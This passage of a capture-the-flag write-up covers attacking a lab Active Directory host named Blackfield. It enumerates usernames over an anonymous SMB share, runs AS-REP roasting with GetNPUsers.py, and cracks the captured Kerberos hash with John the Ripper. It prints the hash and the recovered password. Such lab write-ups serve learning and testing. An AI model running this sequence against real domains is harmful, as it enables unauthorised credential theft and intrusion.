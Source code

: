 I then inspected the `profiles$` share:
```bash
smbclient -N //blackfield.htb/profiles$
```

```bash
mb: \\> ls
  .                                   D        0  Wed Jun  3 11:47:12 2020
  ..                                  D        0  Wed Jun  3 11:47:12 2020
  AAlleni                             D        0  Wed Jun  3 11:47:11 2020
  ABarteski                           D        0  Wed Jun  3 11:47:11 2020
  ABekesz                             D        0  Wed Jun  3 11:47:11 2020
  ABenzies                            D        0  Wed Jun  3 11:47:11 2020
  ........
```

its contents appear to be usernames! also each one of them contains nothing, BUT this is a way to collect all users, so i copied all of them in a txt, and then sanitized the usernames so a new txt containing only them is formed:
```bash
awk '{print $1}' share_list.txt > usernames.txt
```

```bash
$ cat usernames.txt 
AAlleni
ABarteski
ABekesz
ABenzies
Foothold
```
great! now that we have the usernames in a format that is usable, we can do a multitude of things.

For example we could try hunting for users that have the flag `DONT_REQ_PREAUTH` enabled, a method called `AS-REP` roasting.

## AS-REP roasting

TO perform AS-REP roasting, i will use `GetNPUsers.py`
```bash
GetNPUsers.py -dc-ip 10.129.164.18 BLACKFIELD.local/ -usersfile usernames.txt > as-rep-roast.txt
```

aand we got an asrep hash! and it appears to be associated with user `support`
```bash
$krb5asrep$23$support@BLACKFIELD.LOCAL:3bbe070692d760efc2224b563d1387b8$8bbe45bc2b5f1e80b063a9ceeb35754757f8851e1307c98d3bfcd05be9382d09ad731a9c6547414b5c15d3540903884aa7cb8aab778286593b5c76ab51ce572cbd9ea69d890c48123bb8cfbd3ceac109d9b46e1dc268625f0a7e08fd12f8f3dbc1117556b3326f259ea5d387c2d230728c00115d7fb525ee58b94dc8564dd511a95dfd327790ff1d44d2e215fd149d887033f5f5263a5c1759d8898ffd9093d5d498d44452bb6c7eef15587853e7941c3b2d1840727b2a09df7b04e8bbd35769537304ba20b08328f4dbb3f17f8b4d26fe910d4a4e4867fa482a9b7e3c130969df69a14092b40675b6a8c64be12f5afe4ecc7fca
```

lets crack it:
```bash
john hash_blackfield_support.txt --wordlist=rockyou.txt
```
the retrieved password is
```bash
#00^BlackKnight
```
so the creds are
```bash
support
#00^BlackKnight
```
